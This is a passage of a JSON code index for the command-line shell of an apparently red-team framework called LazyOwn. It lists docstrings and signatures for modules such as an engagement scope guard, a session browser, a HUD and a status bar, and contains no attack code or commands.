"line": 257, "name": "write_plan", "signature": "def write_plan(plan, sessions_dir, config)"}, {"doc": "Render ``plan`` to the supplied Rich console.\n\nThe console is duck-typed; only ``print`` is required so callers can\ninject any object implementing the same interface in tests.", "kind": "function", "line": 299, "name": "render_rich", "signature": "def render_rich(plan, console)"}, {"kind": "function", "line": 330, "name": "_addon_items", "signature": "def _addon_items(addons, services, payload)"}, {"kind": "function", "line": 347, "name": "_tool_items", "signature": "def _tool_items(tools, services, payload)"}, {"kind": "function", "line": 367, "name": "_command_items", "signature": "def _command_items(index, phase, history, limit)"}, {"kind": "function", "line": 414, "name": "_service_for_trigger", "signature": "def _service_for_trigger(trigger, services)"}, {"kind": "function", "line": 428, "name": "_tool_command_preview", "signature": "def _tool_command_preview(tool, payload)"}, {"kind": "function", "line": 449, "name": "_read_tool_command", "signature": "def _read_tool_command(source_path)"}, {"kind": "function", "line": 466, "name": "_payload_target", "signature": "def _payload_target(payload, config)"}, {"kind": "function", "line": 474, "name": "_resolve_phase", "signature": "def _resolve_phase(payload, config)"}, {"kind": "function", "line": 486, "name": "_safe_filename_component", "signature": "def _safe_filename_component(value)"}, {"kind": "function", "line": 494, "name": "_default_command_index_loader", "signature": "def _default_command_index_loader(path)"}, {"doc": "Return ``True`` when the plan carries no actionable items.", "kind": "method", "line": 139, "name": "is_empty", "signature": "def is_empty(self)"}]}, {"doc": "``cmd2.CommandSet`` discovery and registration for ``cli.commands``.  Tier 2 introduces ``cli.commands.*`` modules where each module exposes one or more ``CommandSet`` subclasses scoped to a kill-chain phase (recon, enum, exploit, ...). This module discovers those CommandSets and registers them on a live :class:`cmd2.Cmd` instance.  The point: ``lazyown.py`` does not import every phase module — it calls :func:`register_command_sets(self)` at startup and the plumbing happens declaratively. Adding a new phase is a single new file under ``cli/commands/`` plus a ``CommandSet`` subclass.  Migration coexistence ---------------------  During the staged migration the legacy ``LazyOwnShell`` still owns most ``do_*`` methods. The replacement phase modules subclass :class:`cli.commands._dormancy.PendingCommandSet` so they are discovered (and therefore testable) without colliding with the originals on the shell. :func:`register_command_sets` skips them; once a phase is fully moved out of ``lazyown.py`` its set swaps its base class to :class:`cli.commands._base.LazyOwnCommandSet` and joins the active registry on the next shell start.", "id": "cli/registry.py", "kind": "module", "label": "registry.py", "language": "py", "sha256": "4c66332cd682310b", "symbol_count": 2, "symbols": [{"doc": "Yield every ``CommandSet`` subclass found under ``cli.commands.*``.\n\nEach module under ``cli.commands`` is imported and scanned for classes\nthat subclass ``cmd2.CommandSet``. Modules whose leaf name begins with\nan underscore (``_base``, ``_dormancy``) are skipped because they hold\nshared scaffolding rather than concrete command sets.\n\nArgs:\n    include_pending: When ``True`` (default) pending sets are yielded\n        so tests can validate their structure. When ``False`` the\n        iterator filters them out — used by :func:`register_command_sets`\n        to avoid collisions with the legacy shell.\n\nYields:\n    Each concrete ``CommandSet`` subclass declared in a discovered\n    module.", "kind": "function", "line": 41, "name": "iter_command_sets", "signature": "def iter_command_sets(include_pending)"}, {"doc": "Instantiate and register every active ``CommandSet`` on ``shell``.\n\nPending sets (subclasses of\n:class:`cli.commands._dormancy.PendingCommandSet`) are skipped so they\ncan coexist with the legacy ``do_*`` methods on ``LazyOwnShell``\nduring the incremental migration.\n\nArgs:\n    shell: A live :class:`cmd2.Cmd` instance (typically\n        ``LazyOwnShell``).\n\nReturns:\n    The list of ``CommandSet`` instances that were successfully\n    registered. Errors during registration of an individual set are\n    reported via the shell's ``perror`` (or :func:`print` as a\n    fallback) and skipped — one failing set must not prevent the\n    shell from booting.", "kind": "function", "line": 77, "name": "register_command_sets", "signature": "def register_command_sets(shell)"}]}, {"doc": "Authorization scope guard for offensive command execution.  A red-team framework that reads its target from ``payload.json`` has a sharp edge: if the operator leaves ``rhost`` pointing at the wrong machine, every offensive command fires at an unauthorized host. That is an engagement incident, not a cosmetic bug. This module is the safety net.  The guard answers a single question before a command runs: *is the active target inside the authorized engagement scope for this (potentially offensive) command?* It is deliberately conservative and fail-open so it never breaks an existing workflow:  * When the enforcement mode is ``off`` it is a no-op. * When no scope is configured it allows everything (you cannot enforce a scope that was never defined), so operators who never touch the feature see no change at all. * When the command is not classified as offensive (reporting, configuration, local helpers) it allows it. * When the target is empty it allows it (nothing to check).  Only when an *offensive* command targets a host *outside* a *defined* scope does the guard react, and even then ``warn`` mode merely annotates the decision while ``enforce`` mode blocks pending operator confirmation.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py`` (Dependency Inversion); the shell depends on this module, never the reverse. - The offensive/benign classification is pure data (:data:`OFFENSIVE_CATEGORIES`) plus a pure function (:func:`build_offensive_commands`), so it is unit-testable without a live", "id": "cli/scope_guard.py", "kind": "module", "label": "scope_guard.py", "language": "py", "sha256": "4108ef5ee8b8dc1b", "symbol_count": 12, "symbols": [{"doc": "Enforcement posture for the scope guard.\n\nAttributes:\n    OFF: The guard is disabled and always allows.\n    WARN: Out-of-scope offensive commands are allowed but annotated.\n    ENFORCE: Out-of-scope offensive commands are blocked pending\n        confirmation.", "kind": "class", "line": 90, "name": "ScopeMode", "signature": "class ScopeMode(StrEnum)"}, {"doc": "Outcome of a single scope evaluation.\n\nAttributes:\n    allowed: Whether the command may proceed without confirmation.\n    needs_confirmation: Whether the caller must obtain explicit operator\n        confirmation before proceeding (only set in ``enforce`` mode).\n    reason: Human-readable explanation, empty when the command is allowed\n        for an uninteresting reason (mode off, no scope, benign command).\n    target: The target the decision was made against.\n    command: The command the decision was made against.\n    mode: The enforcement mode in effect when the decision was made.", "kind": "class", "line": 125, "name": "ScopeDecision", "signature": "class ScopeDecision"}, {"doc": "Select the command names whose category is offensive.\n\nArgs:\n    command_categories: Mapping of command name to its cmd2 help category\n        (or ``None`` for uncategorised commands).\n\nReturns:\n    The frozenset of command names that belong to\n    :data:`OFFENSIVE_CATEGORIES`.", "kind": "function", "line": 147, "name": "build_offensive_commands", "signature": "def build_offensive_commands(command_categories)"}, {"doc": "Coerce a scope specification into a tuple of entry strings.\n\nAccepts the canonical list form stored in ``payload.json`` as well as the\nstring forms an operator might produce via ``assign`` (a JSON array, or a\ncomma/space separated list), so the guard is robust to either source.\n\nArgs:\n    entries: A list/tuple/set of entries, a string, or ``None``.\n\nReturns:\n    A tuple of non-empty, stripped entry strings.", "kind": "function", "line": 163, "name": "normalize_scope", "signature": "def normalize_scope(entries)"}, {"kind": "function", "line": 195, "name": "_parse_ip", "signature": "def _parse_ip(value)"}, {"kind": "function", "line": 202, "name": "_parse_network", "signature": "def _parse_network(value)"}, {"kind": "function", "line": 209, "name": "_hostname_match", "signature": "def _hostname_match(target, entry)"}, {"doc": "Return whether *target* falls within any of the scope *entries*.\n\nIP targets are matched against CIDR networks and bare IP entries; hostname\ntargets are matched against hostname entries (supporting a leading ``*.``\nwildcard for subdomains). Cross-kind comparisons (IP target vs hostname\nentry, or vice versa) never match because resolving them would require DNS,\nwhich the guard deliberately avoids.\n\nArgs:\n    target: The active target (IP address or hostname).\n    entries: Authorized scope entries.\n\nReturns:\n    ``True`` when the target is authorized by at least one entry.", "kind": "function", "line": 218, "name": "target_in_scope", "signature": "def target_in_scope(target, entries)"}, {"doc": "Decides whether an offensive command may run against the active target.\n\nThe guard is cheap to construct and holds no mutable state, so the shell\ncan build a fresh instance per command with the current payload values;\nthis guarantees mid-session changes to the scope or the enforcement mode\ntake effect immediately.", "kind": "class", "line": 254, "name": "ScopeGuard", "signature": "class ScopeGuard"}, {"doc": "Coerce an arbitrary payload value into a :class:`ScopeMode`.\n\nArgs:\n    value: A :class:`ScopeMode`, a mode string, or anything else.\n\nReturns:\n    The matching mode, defaulting to :attr:`WARN` for unknown input so\n    a typo never silently disables the guard.", "kind": "method", "line": 105, "name": "from_value", "signature": "def from_value(cls, value)"}, {"doc": "Initialise the guard.\n\nArgs:\n    scope_entries: The authorized scope, in any form accepted by\n        :func:`normalize_scope`.\n    mode: The enforcement mode, in any form accepted by\n        :meth:`ScopeMode.from_value`.\n    is_offensive: Predicate returning ``True`` when a command name is\n        offensive. Injected so the guard never imports the shell.", "kind": "method", "line": 263, "name": "__init__", "signature": "def __init__(self, scope_entries, mode, is_offensive)"}, {"doc": "Evaluate a single command against the active target.\n\nArgs:\n    command: The command name about to run.\n    target: The active target (``rhost``).\n\nReturns:\n    A :class:`ScopeDecision`. The guard fails open: any classification\n    error is treated as benign so a bug here never blocks the operator.", "kind": "method", "line": 283, "name": "evaluate", "signature": "def evaluate(self, command, target)"}]}, {"doc": "Compact session HUD: the numbers no other command shows.  ``killchain`` already owns the kill-chain view and does it better, with per-phase percentages. ``sitrep`` owns the full operational picture. This module covers only the gap: how long the session has run, how many commands it has executed, and how much material it has captured.  Every figure comes from a source that actually exists on disk. Credential and note counts use the same globs as the dashboard (``credentials*.txt``, ``notes*.txt``); the command count and the session clock come from the engagement state, which is the only component that knows when the session started.", "id": "cli/session_hud.py", "kind": "module", "label": "session_hud.py", "language": "py", "sha256": "46641e9896401225", "symbol_count": 9, "symbols": [{"doc": "Centralized knobs for HUD data sources.", "kind": "class", "line": 25, "name": "HudConfig", "signature": "class HudConfig"}, {"doc": "Point-in-time values displayed by the HUD.", "kind": "class", "line": 50, "name": "HudSnapshot", "signature": "class HudSnapshot"}, {"doc": "Count non-empty lines across every file matching the patterns.\n\nArgs:\n    root: Directory holding the session artefacts.\n    patterns: Glob patterns relative to ``root``.\n\nReturns:\n    Total non-empty line count, zero when nothing matches.", "kind": "function", "line": 62, "name": "count_lines_in_globs", "signature": "def count_lines_in_globs(root, patterns)"}, {"doc": "Count data rows in a CSV file without loading it fully.\n\nArgs:\n    path: CSV file path.\n\nReturns:\n    Number of data rows, zero when missing or unreadable.", "kind": "function", "line": 83, "name": "count_csv_rows", "signature": "def count_csv_rows(path)"}, {"doc": "Format a duration as HH:MM:SS.\n\nArgs:\n    seconds: Duration in seconds.\n\nReturns:\n    Zero-padded clock string.", "kind": "function", "line": 100, "name": "format_elapsed", "signature": "def format_elapsed(seconds)"}, {"doc": "Render kill-chain progress as filled and empty blocks.\n\nArgs:\n    phase: Current phase name.\n    width: Bar width in characters.\n\nReturns:\n    String such as [###-------] exploit.", "kind": "function", "line": 115, "name": "phase_bar", "signature": "def phase_bar(phase, width)"}, {"doc": "Read session command count, total count and session start time.\n\nReturns:\n    Tuple of (session_commands, total_commands, elapsed_seconds).\n    Zeros when the engagement state is unavailable.", "kind": "function", "line": 135, "name": "_engagement_facts", "signature": "def _engagement_facts()"}, {"doc": "Build a snapshot from live params, engagement state and session files.\n\nArgs:\n    params: Live payload mapping with rhost and phase keys.\n    config: HUD configuration.\n\nReturns:\n    Populated HudSnapshot with every figure read from a real source.", "kind": "function", "line": 155, "name": "build_snapshot", "signature": "def build_snapshot(params, config)"}, {"doc": "Render the session counters as two plain lines.\n\nNo kill-chain bar: ``killchain`` renders phases with per-phase\npercentages and duplicating a worse version of it here only confused\nthe operator. Level markers are omitted too, because the shell\nprinters in ``core.console`` already emit one per line.\n\nArgs:\n    snapshot: Values to display.\n    config: HUD configuration.\n\nReturns:\n    List of plain lines, one per HUD row.", "kind": "function", "line": 180, "name": "render_snapshot", "signature": "def render_snapshot(snapshot, config)"}]}, {"doc": "Session resumer for the LazyOwn shell.  Scans ``sessions/`` for previous engagement data (IP directories, scan files, credentials) and presents a resume panel at shell startup so the operator can quickly pick up where they left off.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``SessionResumer`` receives a sessions dir path; no hardcoded paths.", "id": "cli/session_resumer.py", "kind": "module", "label": "session_resumer.py", "language": "py", "sha256": "317a0adb343e6e38", "symbol_count": 6, "symbols": [{"doc": "One previous engagement discovered in sessions/.", "kind": "class", "line": 29, "name": "SessionSummary", "signature": "class SessionSummary"}, {"doc": "Centralised constants for the session resumer.", "kind": "class", "line": 41, "name": "SessionResumerConfig", "signature": "class SessionResumerConfig"}, {"doc": "Scan sessions/ and present a resume panel.\n\nArgs:\n    config: Optional config override.", "kind": "class", "line": 51, "name": "SessionResumer", "signature": "class SessionResumer"}, {"kind": "method", "line": 58, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Discover IP-named subdirectories and top-level scan files.", "kind": "method", "line": 62, "name": "_discover_targets", "signature": "def _discover_targets(self)"}, {"doc": "Render the resume panel and return the selected target IP, or None.", "kind": "method", "line": 129, "name": "render_startup_panel", "signature": "def render_startup_panel(self)"}]}, {"doc": "Textual browser for the LazyOwn ``sessions/`` directory.  The browser turns ``sessions/`` into a navigable surface so the operator no longer needs to leave the shell to inspect credentials, hashes, vulns, notes, or raw nmap output. Files are categorised, listed in a left pane, and previewed in a right pane with bounded reads to keep the TUI responsive on multi-megabyte transcripts.  Design (SOLID):  - Single Responsibility: :class:`SessionsBrowserConfig` owns constants, :class:`SessionEntry` is the immutable record, :class:`SessionsIndex` classifies files, :class:`SessionPreview` returns bounded text, and :class:`SessionsBrowserApp` renders. - Open/Closed: a new category is one entry in :attr:`SessionsBrowserConfig.categories`. - Dependency Inversion: the app is always constructed from a state object so tests exercise the data layer without Textual. - No magic numbers / hardcoded paths: every value lives in the config.", "id": "cli/sessions_browser.py", "kind": "module", "label": "sessions_browser.py", "language": "py", "sha256": "d09b2be55698a1b3", "symbol_count": 31, "symbols": [{"doc": "One row in :attr:`SessionsBrowserConfig.categories`.\n\nAttributes:\n    identifier: Stable lowercase identifier (``creds``, ``hashes``...).\n    label: Human-readable header rendered in the tree.\n    patterns: Glob expressions evaluated relative to the sessions\n        root. The first matching pattern wins.", "kind": "class", "line": 33, "name": "CategorySpec", "signature": "class CategorySpec"}, {"doc": "Centralised constants for the browser.", "kind": "class", "line": 49, "name": "SessionsBrowserConfig", "signature": "class SessionsBrowserConfig"}, {"doc": "Immutable description of a single file under ``sessions/``.", "kind": "class", "line": 76, "name": "SessionEntry", "signature": "class SessionEntry"}, {"doc": "Classify files under the sessions root into operator-relevant buckets.", "kind": "class", "line": 85, "name": "SessionsIndex", "signature": "class SessionsIndex"}, {"doc": "Bounded text reader for the preview pane.", "kind": "class", "line": 185, "name": "SessionPreview", "signature": "class SessionPreview"}, {"doc": "Top-level state passed to the Textual app and to tests.", "kind": "class", "line": 225, "name": "SessionsBrowserState", "signature": "class SessionsBrowserState"}, {"doc": "Wire the canonical state used by :func:`launch_browser`.\n\nArgs:\n    payload: Loaded ``payload.json``. Currently unused beyond\n        theme propagation but accepted for forward compatibility.\n    sessions_dir: Optional override for the sessions root.\n    config: Optional explicit :class:`SessionsBrowserConfig`.\n\nReturns:\n    A fresh :class:`SessionsBrowserState`.", "kind": "function", "line": 258, "name": "build_state", "signature": "def build_state(payload, sessions_dir, config)"}, {"doc": "Open the Textual browser and return the last-viewed relative path.\n\nArgs:\n    payload: Loaded ``payload.json``.\n    state: Optional pre-built state (tests inject one).\n    runner: Optional callable used by tests instead of running the\n        real Textual app.\n\nReturns:\n    The relative path of the last file the operator inspected, or\n    ``None`` when the browser was cancelled or Textual is missing.", "kind": "function", "line": 281, "name": "launch_browser", "signature": "def launch_browser(payload, state, runner)"}, {"kind": "function", "line": 314, "name": "_build_app", "signature": "def _build_app(state, theme)"}, {"doc": "Bind to config and resolve the sessions root.\n\nArgs:\n    config: Active configuration.\n    root: Optional explicit root override; defaults to\n        ``Path(config.sessions_dir)``.", "kind": "method", "line": 88, "name": "__init__", "signature": "def __init__(self, config, root)"}, {"doc": "Return the resolved sessions root.", "kind": "method", "line": 100, "name": "root", "signature": "def root(self)"}, {"doc": "Return a mapping ``category_identifier -> [SessionEntry, ...]``.", "kind": "method", "line": 104, "name": "categories", "signature": "def categories(self)"}, {"kind": "method", "line": 119, "name": "_entries_for", "signature": "def _entries_for(self, patterns, spec)"}, {"kind": "method", "line": 142, "name": "_collect_other", "signature": "def _collect_other(self, claimed)"}, {"kind": "method", "line": 160, "name": "_build_entry", "signature": "def _build_entry(self, path, relative, category)"}, {"kind": "method", "line": 172, "name": "_label", "signature": "def _label(self, relative)"}, {"kind": "method", "line": 178, "name": "_relative", "signature": "def _relative(self, path)"}, {"doc": "Bind to config and the sessions root.", "kind": "method", "line": 188, "name": "__init__", "signature": "def __init__(self, config, root)"}, {"doc": "Return ``relative`` as text, capped at ``max_preview_bytes``.\n\nArgs:\n    relative: Path fragment under the sessions root. ``..`` and\n        absolute paths are rejected.\n\nReturns:\n    UTF-8 decoded text. Files that appear binary (more than\n    ``binary_byte_threshold`` NUL bytes in the head) return the\n    configured binary indicator instead of garbled output.", "kind": "method", "line": 193, "name": "read", "signature": "def read(self, relative)"}, {"doc": "Return classified entries, optionally filtered by :attr:`filter_query`.", "kind": "method", "line": 233, "name": "grouped_entries", "signature": "def grouped_entries(self)"}, {"doc": "Return the human-readable label for ``identifier``.", "kind": "method", "line": 248, "name": "category_label", "signature": "def category_label(self, identifier)"}, {"kind": "class", "line": 325, "name": "_SessionsBrowserApp", "signature": "class _SessionsBrowserApp(App)"}, {"kind": "method", "line": 340, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 346, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 356, "name": "on_mount", "signature": "def on_mount(self)"}, {"kind": "method", "line": 359, "name": "on_input_changed", "signature": "def on_input_changed(self, event)"}, {"kind": "method", "line": 363, "name": "on_tree_node_selected", "signature": "def on_tree_node_selected(self, event)"}, {"kind": "method", "line": 370, "name": "action_refresh", "signature": "def action_refresh(self)"}, {"kind": "method", "line": 373, "name": "action_close", "signature": "def action_close(self)"}, {"kind": "method", "line": 376, "name": "_rebuild_tree", "signature": "def _rebuild_tree(self)"}, {"kind": "method", "line": 399, "name": "_show_preview", "signature": "def _show_preview(self, relative)"}]}, {"doc": "Pretty-print the live payload for the operator.  Tier 2.5 replaces ``do_show``'s unordered, unaligned dump with a stable, deterministic rendering. Output is plain text (no ANSI) so the formatter is easy to test and reusable for logs, reports or the dashboard.", "id": "cli/show.py", "kind": "module", "label": "show.py", "language": "py", "sha256": "7346d154355a4b27", "symbol_count": 1, "symbols": [{"doc": "Render ``params`` as a sorted, aligned ``key = value`` block.\n\nArgs:\n    params: Payload dict.\n    keys: Optional whitelist; when given, only those keys are rendered\n        (in the same alphabetical order). Missing keys render as empty\n        strings, matching the alias loader's behaviour.\n\nReturns:\n    A multi-line string. Each line is ``\"<key padded>  <value>\"``. The\n    column width is computed from the rendered key set so output stays\n    aligned regardless of which keys are present.", "kind": "function", "line": 14, "name": "format_payload", "signature": "def format_payload(params)"}]}, {"doc": "Animated splash overlay for the LazyOwn first-run experience.  The splash is rendered with Rich on top of the existing ASCII art banner. Operators keep their original art: this overlay just paints a typewriter effect around it during the first 1-2 seconds of startup, then exits cleanly back to the cmd2 prompt. Opt-in via ``payload.json[\\\"splash\\\"] = true`` (default false), and auto-on when ``payload.json`` does not yet exist.  Design notes:  - Single Responsibility: only the overlay animation lives here. No payload reading, no shell state, no theme mutation. Callers pass the already-resolved theme tokens. - Open/Closed: new animation kinds (e.g. glitch, fade) extend :class:`SplashEffect`; the dispatcher in :func:`render_splash` does not change. - Dependency Inversion: callers depend on :func:`render_splash` and the :class:`SplashEffect` protocol, not on Rich directly. - No magic numbers: timing constants live in :data:`SPLASH_CONFIG`.", "id": "cli/splash.py", "kind": "module", "label": "splash.py", "language": "py", "sha256": "8e78fe2b8db8889a", "symbol_count": 9, "symbols": [{"doc": "Timing and behaviour knobs for the splash overlay.\n\nAttributes:\n    total_seconds: How long the overlay stays on screen. ``0``\n        or negative means render-and-exit immediately. The\n        effect never blocks longer than this regardless of the\n        typewriter per-character delay.\n    per_char_seconds: Delay between consecutive characters in\n        the typewriter effect. Lower values feel snappier.\n    clear_after: Whether to clear the overlay before returning\n        to the caller. When ``False`` the operator sees the\n        splash frozen at its final state -- useful for\n        screencasts but disruptive in a real shell.", "kind": "class", "line": 37, "name": "SplashConfig", "signature": "class SplashConfig"}, {"doc": "Strategy protocol for splash animations.\n\nA new effect implements ``render`` and is registered in\n:func:`render_splash` dispatch. The effect owns its own\nprogress and timing -- the dispatcher only hands it the\nconsole, the lines to animate, and the resolved tokens.", "kind": "class", "line": 62, "name": "SplashEffect", "signature": "class SplashEffect(Protocol)"}, {"doc": "Print each character of each line with a fixed delay.\n\nA blinking caret is appended to the active line so the\noperator sees the typewriter working. The caret is removed\nbefore the function returns. The accumulated prefix is\nredrawn on every step so the operator sees the line growing\nleft-to-right, not single characters flickering.", "kind": "class", "line": 80, "name": "TypewriterEffect", "signature": "class TypewriterEffect"}, {"doc": "Rewrite the current line with ``accumulated`` plus optional caret.\n\nArgs:\n    console: Rich console the typewriter writes through.\n    accumulated: Text built so far for the current line.\n    caret: Whether to append a blinking block character to\n        signal ongoing typing.\n    tokens: Resolved theme tokens. The caret picks up the\n        ``muted`` style.", "kind": "function", "line": 119, "name": "_redraw", "signature": "def _redraw(console, accumulated, caret, tokens)"}, {"doc": "Print every line at once with no animation. Used in tests.\n\nThe effect renders and returns immediately so unit tests do\nnot have to mock :func:`time.sleep`. ``render_splash`` picks\nthis effect whenever ``config.total_seconds <= 0`` or the\ncaller asks for it explicitly.", "kind": "class", "line": 141, "name": "InstantEffect", "signature": "class InstantEffect"}, {"doc": "Render the splash overlay and optionally clear the screen.\n\nArgs:\n    console: Rich console the shell already uses. The overlay\n        writes through it so colours and terminal width match\n        the rest of the operator surface.\n    lines: Lines to animate. Each entry is a plain string --\n        markup is intentionally NOT parsed, so the operator's\n        ASCII art (which often contains brackets) renders\n        verbatim.\n    payload: Payload mapping for theme resolution. ``None``\n        uses the default theme; passing the live payload\n        honours the operator's chosen ``tui_theme``.\n    config: Override timing/clear behaviour. ``None`` uses\n        :data:`SPLASH_CONFIG`.\n    effect_name: Which effect to dispatch. ``\"typewriter\"``\n        or ``\"instant\"``. Unknown values fall back to\n        ``\"instant\"`` so a bad config never crashes startup.\n\nReturns:\n    None. The console is left in a state ready for the next\n    prompt line to be printed (or cleared, depending on\n    ``config.clear_after``).", "kind": "function", "line": 166, "name": "render_splash", "signature": "def render_splash(console, lines, payload, config, effect_name)"}, {"kind": "method", "line": 71, "name": "render", "signature": "def render(self, console, lines, tokens, config)"}, {"kind": "method", "line": 90, "name": "render", "signature": "def render(self, console, lines, tokens, config)"}, {"kind": "method", "line": 150, "name": "render", "signature": "def render(self, console, lines, tokens, config)"}]}, {"doc": "Persistent operator status bar for the LazyOwn cmd2 shell.  The status bar collapses the four pieces of context an operator constantly reaches for into a single line embedded in the shell prompt:  [ target | phase | found: <last_finding> | next: <suggestion> ]  It replaces the round-trip of opening ``sessions/`` artefacts after every command. The renderer is wired into ``cmd2`` through a precommand hook so the bar is recomputed *before* each prompt is drawn, never blocking input.  Design constraints honoured here:  * Single Responsibility: every source class produces exactly one field. * Open / Closed: new fields are added by registering another :class:`IStatusSource`, never by editing the renderer. * Liskov: every source returns a ``str`` of bounded width. * Interface Segregation: the source protocol exposes only ``collect``. * Dependency Inversion: :class:`StatusBarManager` depends on the abstractions, never on ``LazyOwnShell`` or ``cmd2`` directly. * No magic numbers / hardcoded paths: every default lives in :class:`StatusBarConfig`; runtime overrides come from ``payload.json``. * Prompt-toolkit native ANSI: colour escapes are emitted raw because the cmd2 shell parses ANSI itself and paints GNU-readline ``\\001 ... \\002`` bytes as visible ``^A``/``^B`` glyphs. Marker fencing is opt-in via ``readline_safe=True`` for genuine readline consumers only.", "id": "cli/status_bar.py", "kind": "module", "label": "status_bar.py", "language": "py", "sha256": "795c871981b2caa7", "symbol_count": 64, "symbols": [{"doc": "Immutable configuration container for the status bar subsystem.\n\nEvery tunable lives here. Operator overrides flow in through\n:meth:`from_payload` which reads ``payload.json``; downstream code only\never sees an instance of this class.", "kind": "class", "line": 41, "name": "StatusBarConfig", "signature": "class StatusBarConfig"}, {"doc": "Immutable snapshot of the pieces the bar renders.\n\n``operators`` is an opt-in fifth segment populated by\n:class:`CollabPresenceSource`. Empty strings are treated as \"field\ndisabled\" by the renderer so the historical four-segment format remains\nthe default.", "kind": "class", "line": 127, "name": "StatusContext", "signature": "class StatusContext"}, {"doc": "One-method protocol that every status source must satisfy.", "kind": "class", "line": 143, "name": "IStatusSource", "signature": "class IStatusSource(Protocol)"}, {"doc": "Path-validated, size-bounded reader for ``sessions/`` artefacts.\n\nThe reader is the only filesystem entry point in this module. It\nrefuses anything that escapes the configured ``sessions_dir`` and\ntruncates reads to ``max_file_bytes`` so a runaway log never blows up\nthe prompt.", "kind": "class", "line": 151, "name": "FileSystemReader", "signature": "class FileSystemReader"}, {"doc": "Status source: active target identifier.", "kind": "class", "line": 268, "name": "PayloadTargetSource", "signature": "class PayloadTargetSource"}, {"doc": "Status source: current kill-chain phase.", "kind": "class", "line": 292, "name": "WorldModelPhaseSource", "signature": "class WorldModelPhaseSource"}, {"doc": "Status source: most recent meaningful finding.", "kind": "class", "line": 319, "name": "SessionFindingSource", "signature": "class SessionFindingSource"}, {"doc": "Status source: next command verb derived from kill-chain + phase priority.\n\nWraps :func:`cli.reactive_hints.command_hints` so the bar always\nsuggests an actionable CLI verb (``lazynmap``, ``gobuster``, ...)\ninstead of a graph-node label like a class name. The graph advisor\nremains available as a secondary source for callers that need\narbitrary node lookups.", "kind": "class", "line": 416, "name": "CommandHintSuggestionSource", "signature": "class CommandHintSuggestionSource"}, {"doc": "Status source: top next-step suggestion from the graph advisor.", "kind": "class", "line": 508, "name": "GraphSuggestionSource", "signature": "class GraphSuggestionSource"}, {"doc": "Status source: number of active collaboration operators.\n\nReads ``sessions/operators.json`` (a snapshot written by\n:mod:`modules.collab_bp` or its export hook). The file is expected to\ncontain ``{\"operators\": [{\"name\": ..., \"last_seen\": ..., \"active\": ...}]}``\nwhere ``last_seen`` is a Unix timestamp. Operators older than\n:attr:`StatusBarConfig.operator_stale_seconds` are filtered out so the\ncount reflects live presence and survives a server restart.", "kind": "class", "line": 590, "name": "CollabPresenceSource", "signature": "class CollabPresenceSource"}, {"doc": "Compose a sanitised status line from a :class:`StatusContext`.", "kind": "class", "line": 656, "name": "StatusBarRenderer", "signature": "class StatusBarRenderer"}, {"doc": "Lifecycle façade: collect → render → install on the cmd2 shell.\n\nThe manager is the single class ``lazyown.py`` touches. Everything\nelse in this module is a private collaborator. Tests instantiate this\nclass directly with hand-rolled doubles for sources and shell.", "kind": "class", "line": 744, "name": "StatusBarManager", "signature": "class StatusBarManager"}, {"doc": "Return ``True`` when the operator-presence segment should be wired in.", "kind": "function", "line": 948, "name": "_operator_presence_enabled", "signature": "def _operator_presence_enabled(payload, config)"}, {"doc": "Wire the canonical multi-source manager used by the live shell.\n\nWhen ``payload['enable_operator_presence']`` is truthy the manager is\nextended with a fifth :class:`CollabPresenceSource` keyed\n``operators``. The historical four-segment layout is preserved when\nthat flag is absent so existing operators see no change.\n\nArgs:\n    payload: Loaded ``payload.json``.\n    sessions_dir: Optional override for the sessions root. When given\n        it replaces ``config.sessions_dir``.\n    advisor_factory: Zero-arg callable returning a\n        :class:`cli.graph_advisor.GraphAdvisor`. Optional.\n    config: Optional explicit :class:`StatusBarConfig`. When omitted\n        the config is derived from ``payload``.\n\nReturns:\n    A fully constructed :class:`StatusBarManager` ready for\n    :meth:`StatusBarManager.install`.", "kind": "function", "line": 969, "name": "build_default_manager", "signature": "def build_default_manager(payload, sessions_dir, advisor_factory, config)"}, {"doc": "Return a config with overrides applied from a ``payload.json`` mapping.\n\nArgs:\n    payload: The loaded ``payload.json`` dictionary, or ``None`` to\n        accept the defaults verbatim.\n\nReturns:\n    A new :class:`StatusBarConfig` instance. Unknown keys are\n    ignored so the framework never crashes on a malformed payload.", "kind": "method", "line": 99, "name": "from_payload", "signature": "def from_payload(cls, payload)"}, {"doc": "Return the field value for this source as a plain string.", "kind": "method", "line": 146, "name": "collect", "signature": "def collect(self)"}, {"doc": "Initialise with the active config and optional explicit root.\n\nArgs:\n    config: The active :class:`StatusBarConfig`.\n    root: Override for the resolved sessions directory. Defaults\n        to ``config.sessions_dir`` relative to the current working\n        directory.\n\nRaises:\n    ValueError: When ``config.max_file_bytes`` is non-positive.", "kind": "method", "line": 160, "name": "__init__", "signature": "def __init__(self, config, root)"}, {"doc": "Return the resolved root directory backing this reader.", "kind": "method", "line": 179, "name": "root", "signature": "def root(self)"}, {"doc": "Return the contents of ``relative`` truncated to ``max_file_bytes``.\n\nArgs:\n    relative: Path fragment under the sessions root. A leading\n        separator is rejected; ``..`` escape attempts are rejected.\n\nReturns:\n    The file contents as text, or an empty string when the file\n    is missing or unreadable.", "kind": "method", "line": 183, "name": "read_text", "signature": "def read_text(self, relative)"}, {"doc": "Return parsed JSON from ``relative`` or ``None`` on failure.\n\nArgs:\n    relative: Path fragment under the sessions root.\n\nReturns:\n    The decoded JSON object, or ``None`` when the file does not\n    exist or contains invalid JSON.", "kind": "method", "line": 204, "name": "read_json", "signature": "def read_json(self, relative)"}, {"doc": "Return the most recently modified path matching ``pattern``.\n\nArgs:\n    pattern: Glob expression evaluated relative to the sessions\n        root. Patterns are constrained to the root via\n        :meth:`_safe_path` once a match is selected.\n\nReturns:\n    The newest matching path, or ``None`` if no match exists.", "kind": "method", "line": 222, "name": "glob_latest", "signature": "def glob_latest(self, pattern)"}, {"kind": "method", "line": 247, "name": "_safe_path", "signature": "def _safe_path(self, relative)"}, {"kind": "method", "line": 253, "name": "_is_within_root", "signature": "def _is_within_root(self, candidate)"}, {"kind": "method", "line": 261, "name": "_has_traversal", "signature": "def _has_traversal(value)"}, {"doc": "Bind to the live config and a payload mapping.\n\nArgs:\n    config: Active configuration.\n    payload: ``payload.json`` mapping. ``None`` is treated as an\n        empty payload — the source then falls back to\n        ``config.fallback_target``.", "kind": "method", "line": 271, "name": "__init__", "signature": "def __init__(self, config, payload)"}, {"doc": "Return the 